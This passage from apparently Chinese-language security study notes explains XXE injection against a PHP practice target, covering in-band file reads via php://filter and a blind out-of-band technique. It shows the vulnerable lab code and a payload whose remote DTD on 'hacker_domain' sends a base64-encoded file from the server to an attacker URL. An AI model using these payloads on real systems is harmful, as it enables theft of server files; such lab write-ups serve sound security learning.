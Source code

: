     ![image-20220517203246919](XXE/image-20220517203246919.png)

6. 同样的，如果是 PHP 的站点，`SYSTEM` 后面也可以用 php 的伪协议，例如 `filter` 和 `file`：

    `"php://filter/read=convert.base64-encode/resource=xxe02.php"`
    
7. 具体的案例中，`&` 要在有回显的地方调用：
    ```xml-dtd
    <?xml version="1.0"?>
    <!DOCTYPE a [
        <!ENTITY b SYSTEM "http://localhost/xxe02.php">
        ]>
    <有回显的地方>&b;</有回显的地方>
    ```

### 2. 没有回显的注入

1. 靶场代码：

    ```php+HTML
    <?php
    $xml = isset($_POST['xml'])?$_POST['xml']:"";
    $data = @simplexml_load_string($xml);
    ?>
    ```

2. 由于没有 print，所以没有回显，因此这里的思路就是创建数据通道，将其带出来。

3. 参考 payload 如下：

    payload：

    ```xml-dtd
    xml=
    <?xml version="1.0"?>
    <!DOCTYPE a [
            <!ENTITY % target_file SYSTEM "php://filter/read=convert.base64-encode/resource=URI">
            <!ENTITY % remote_dtd SYSTEM "http://hacker_domain/evil.xml 或者 dtd">
            %remote_dtd;
            %request;
        ]>
    <a>&attack;</a>
    ```

    hacker_domain 下的 evil.xml 文件内容如下：

    ```xml-dtd
    <!ENTITY % request "<!ENTITY attack SYSTEM 'http://hacker_domain/evil.php?target_file=%target_file;'>">
    ```

